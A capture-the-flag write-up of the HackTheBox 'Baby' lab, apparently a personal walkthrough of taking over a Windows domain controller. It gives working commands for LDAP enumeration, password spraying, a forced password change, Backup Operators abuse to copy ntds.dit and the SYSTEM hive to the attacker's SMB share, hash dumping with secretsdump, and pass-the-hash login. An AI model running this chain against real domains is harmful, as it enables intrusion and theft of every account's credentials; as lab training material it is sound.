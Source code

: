 # [HackTheBox - Baby](https://app.hackthebox.com/machines/Baby)
![c6f135fd23e08499dbcf0bcab8d08564.png](../../../../_resources/c6f135fd23e08499dbcf0bcab8d08564.png)
[toc]
***
## Abstract
Baby is a vulnlab machine imported to HackTheBox as a easy Windows Active Directory box, I started with network enumeration with nmap, revealing this machine is a domain controller and no extra service running on this machine.

On the enumeration phase, I found that null session can be used to conduct LDAP search and retrieve a list of user and also the initial password from user description. however there is one user that could not be pull with common user pull method but searching thoughly in the LDAP result will reveal about this user. 

Using password from user description and the hidden user, revealing that we can change password of this user and gain foothold on the machine.

The user that used for footholding is in Backup Operators group which we can backup ntds.dit along with SYSTEM registry hive and dump hashes of all users in the domain using secretdump and then we can use Administrator NTLM hash to login to the machine and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including LDAP and Kerberos which mean this machine is a domain controller. 
```
nmap $IP
```
![26b7efdc620353a2086c3d852c4da222.png](../../../../_resources/26b7efdc620353a2086c3d852c4da222.png)

I rescanned again with `-sCV` flag for service enumeration and nmap script engine which reveals domain and hostname that we can add to hosts file but other information are not too special at this point  
![ff14d3ebf97cfed092a71494342ed65e.png](../../../../_resources/ff14d3ebf97cfed092a71494342ed65e.png)

After adding domain to hosts file. I started enumerate SMB with NetExec tool and we can see that null session could not be used to retrieve anything from  
![f1d4e9c963c1fed550ace9ded12fa705.png](../../../../_resources/f1d4e9c963c1fed550ace9ded12fa705.png)

But after changing protocol to LDAP, we can see that we can pull user lists from the domain and we can also see that we also have a password from user description and it telling us that the initial password of users on this domain is "BabyStart123!" and will likely to be changed after user logon.
```
nxc ldap baby.vl -u '' -p '' --users
```
![2db204965f7ff0c0c07d0b69b3f3c891.png](../../../../_resources/2db204965f7ff0c0c07d0b69b3f3c891.png)

I created a userlist with NetExec and then password spraying all users from this user list but no hit which mean all users already changed their password and it seem like I missed something I shouldn't.
```
nxc ldap baby.vl -u '' -p '' --users-export baby_users.txt
nxc smb baby.vl -u baby_users.txt -p 'BabyStart123!'
```
![2ac46c2fab4c297d6944f279690dca56.png](../../../../_resources/2ac46c2fab4c297d6944f279690dca56.png)
![81e4fe894bd107521a7ac680c1790ab4.png](../../../../_resources/81e4fe894bd107521a7ac680c1790ab4.png)

I used a simple LDAP search to search for something I might have missed and sure enough, there is one user that could not be pulled with my netexec 
```
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" | grep member:
```
![05e5906012ebbd05e0e9677198203c52.png](../../../../_resources/05e5906012ebbd05e0e9677198203c52.png)

I tried to find the reason about it and 0xdf gave on on his write-up "That’s because this user doesn’t have any data associated with them" which is really interesting
![985b8b827cb9d296ec8fbddde273a42b.png](../../../../_resources/985b8b827cb9d296ec8fbddde273a42b.png)

I dug into the [source code](https://github.com/Pennyw0rth/NetExec/blob/f981215d776d56234d51f95ac2e48f11e149fe31/nxc/protocols/ldap.py#L740) of NetExec when using ldap to parse user list which reveals that NetExec will retrieve only object with `sAMAccountType` = 805306368 (normal user accounts) and "Caroline.Robinson" does not have this value so it didn't make to the list.
![53e6e1e570ed1d906995202caa67ec33.png](../../../../_resources/53e6e1e570ed1d906995202caa67ec33.png)

## Initial Foothold by Changing password of Caroline.Robinson

I used the credential found on user description on this user and we can see that we can change password of this user and continue our operation.
```
nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'
```
![6609dadf07b72af65f34ae4ebb95de21.png](../../../../_resources/6609dadf07b72af65f34ae4ebb95de21.png)

I used uv to run latest version of NetExec from Github to use change-password module since NetExec on Kali linux is not the latest version and it does not have this module. (you can use other tool to change password of this user)
```
uv run nxc smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!' -M change-password -o NEWPASS=Password123
```
![0eef906aa335b4004f160937bb3d3f2a.png](../../../../_resources/0eef906aa335b4004f160937bb3d3f2a.png)

Now we can use this account to eneumerate further but nothing too special on share here.
![d184b24b122d32a5e684378c0e132b6c.png](../../../../_resources/d184b24b122d32a5e684378c0e132b6c.png)

We can use this user to gain a foothold as we can see "Pwn3d!" message from NetExec with WinRM protocol 
```
nxc winrm baby.vl -u 'Caroline.Robinson' -p Password123
```
![2316cf50ce55d71714b1dbc3a8672b7a.png](../../../../_resources/2316cf50ce55d71714b1dbc3a8672b7a.png)

Using [evil-winrm](https://github.com/Hackplayers/evil-winrm), we can gain a foothold and loot user flag located on the desktop of this user.
![495cb95b3a45b41f28535d9e863c6a69.png](../../../../_resources/495cb95b3a45b41f28535d9e863c6a69.png)

## Privilege Escalation with Backup Operators group

After gaining foothold, I used whoami command to list information about current user to find a low-hanging fruit and we can see that this user is a member of Backup Operators group which can backup (SeBackupPrivilege) and restore (SeRestorePrivilege) file on this machine.
```
whoami /all
```
![86434904fbd98b5f38ef2b2c6fa52047.png](../../../../_resources/86434904fbd98b5f38ef2b2c6fa52047.png)

Since this is the domain controller, I will need to create a backup of ntds.dit which is active directory database and SYSTEM registry hive to dump hashes from both of these files, SYSTEM registry can be retrieve with just 1-2 command but on the other hand. I need to create a shadow copy so I can safely retrieve ntds.dit file.

I will use diskshadow to create shadow copy or C drive but first, I need to create a script to automate this first and here in the script
```
set verbose on   
set metadata C:\Windows\Temp\meta.cab   
set context clientaccessible   
set context persistent   
begin backup   
add volume C: alias wowza   
create   
expose %wowza% E:   
end backup
```

The script will create a shadow copy snapshot of C drive and map to E drive and thats it but since this script was created on my Kali Linux, I need to convert Unix format (Line Feed) to DOS format (carriage return + Line feed) which will make this script able to run on Windows.
```
unix2dos diskshadow.txt
```
![28cabc9ae7f5843c32bd774114fb0717.png](../../../../_resources/28cabc9ae7f5843c32bd774114fb0717.png)

Next, I uploaded the script on my winrm session and execute it. no error and now we are ready for the file transfer.
```
upload diskshadow.txt
diskshadow /s diskshadow.txt
```
![ce09650189645b3ef5b09f67aa5bdea4.png](../../../../_resources/ce09650189645b3ef5b09f67aa5bdea4.png)
![2c89cee29b28fb4bd2358de6f21a5210.png](../../../../_resources/2c89cee29b28fb4bd2358de6f21a5210.png)

Since SYSTEM hive and ntds.dit files are quite large so, I opened my netshare share and copy both files to my Kali Linux. This way is much faster than download function in evil-winrm. first I created a backup of SYSTEM hive with reg save command.
```
reg save hklm\system c:\system
cp system.hive \\10.10.14.24\debug\
```
![1b2ada0a9d181e68400962ee83cc16a9.png](../../../../_resources/1b2ada0a9d181e68400962ee83cc16a9.png)
![985f2bfdcd10aa66d3ae23d309d8a909.png](../../../../_resources/985f2bfdcd10aa66d3ae23d309d8a909.png)

Next is ntds.dit file and now we are ready to dump all the hashes inside both files.
```
robocopy /b E:\windows\ntds . ntds.dit
cp ntds.dit \\10.10.14.24\debug\
```
![d512b652ff079e0c93a572daca4eb8c3.png](../../../../_resources/d512b652ff079e0c93a572daca4eb8c3.png)

The tool that can be used to dump hashes is secretsdump from impacket and now we can get NTLM hash of Administrator account and gain access to target system via pass-the-hash technique.
```
impacket-secretsdump -ntds ntds.dit -system system.hive local
```
![6fc8fe601dbfd6152a5c6f96fc7463d1.png](../../../../_resources/6fc8fe601dbfd6152a5c6f96fc7463d1.png)

Login as Administrator and loot the flag, Now we are done :D
```
evil-winrm -i baby.vl -u 'Administrator' -H ee4457ae59f1e3fbd764e33d9cef123d
```
![772a9088ed368afeb8025d4b47c76b7d.png](../../../../_resources/772a9088ed368afeb8025d4b47c76b7d.png)

https://labs.hackthebox.com/achievement/machine/1438364/739
***